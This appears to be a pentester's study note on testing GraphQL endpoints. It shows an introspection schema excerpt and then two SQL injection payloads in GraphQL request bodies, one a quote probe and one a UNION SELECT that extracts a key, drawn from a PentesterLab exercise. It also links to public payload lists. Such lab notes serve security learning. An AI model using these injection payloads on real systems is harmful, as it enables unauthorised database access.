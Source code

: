 - Kind of Similar to SQL
    - Since it's a standard to request and organize data.
- Usually the endpoint is `/graphql`
- If you are able to get schema via Introspection then look at the initial `Types` which are present. That would help you find what all operations are allowed and how they can be accessed.

Ex:

```json
"types": [
                {
                    "kind": "OBJECT",
                    "name": "Query",
                    "description": null,
                    "fields": [
                        {
                            "name": "projects",
                            "description": null,
                            "args": [
                                {
                                    "name": "offset",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Int",
                                        "ofType": null
                                    },
                                    "defaultValue": "0"
                                },
                                {
                                    "name": "limit",
                                    "description": null,
                                    "type": {
                                        "kind": "SCALAR",
                                        "name": "Int",
                                        "ofType": null
                                    },
                                    "defaultValue": "10"
                                }
                            ],
                            "type": {
                                "kind": "LIST",
                                "name": null,
                                "ofType": {
                                    "kind": "OBJECT",
                                    "name": "Project",
                                    "ofType": null
                                }
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        },
                        {
                            "name": "project",
                            "description": null,
                            "args": [
                                {
                                    "name": "id",
                                    "description": null,
                                    "type": {
                                        "kind": "NON_NULL",
                                        "name": null,
                                        "ofType": {
                                            "kind": "SCALAR",
                                            "name": "ID",
                                            "ofType": null
                                        }
                                    },
                                    "defaultValue": null
                                }
                            ],
                            "type": {
                                "kind": "OBJECT",
                                "name": "Project",
                                "ofType": null
                            },
                            "isDeprecated": false,
                            "deprecationReason": null
                        }
                    ],
                    "inputFields": null,
                    "interfaces": [],
                    "enumValues": null,
                    "possibleTypes": null
                },
```

Here we can see that there are two `operations` 

a) `projects` - Takes no input/args 

b) `project` - Takes `id` of type `ID!` as argument. Now if it is taking an argument as input then that means it can tested for SQLi

```json
{"operationName":"project","variables":{"id":"1'"},"query":"query project($id:ID!){\n  project(id: $id){\n    id\n    name\n   __typename\n  }\n}\n"}
```

This would give some DB error because in `id` we are sending "1`"(tilt).

```json
{"operationName":"project","variables":{"id":"3 union select id,value,3 from PtlabIIKey"},"query":"query project($id:ID!){\n  project(id: $id){\n    id\n    name\n   __typename\n  }\n}\n"}
```

This is Pentester lab Graphql SQli

## Payloads

Everything is present in - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

- For testing run that `introsecption` payload and see if the Schema is returned.
    - Copy and then paste in vim and then run `:%s /\n/\\n/` to format the payload properly
- If the schema is returned then to make the work easy grab the enum tool:
    - [https://gitlab.com/dee-see/graphql-path-enum/-/pipelines?scope=tags&page=1](https://gitlab.com/dee-see/graphql-path-enum/-/pipelines?scope=tags&page=1)
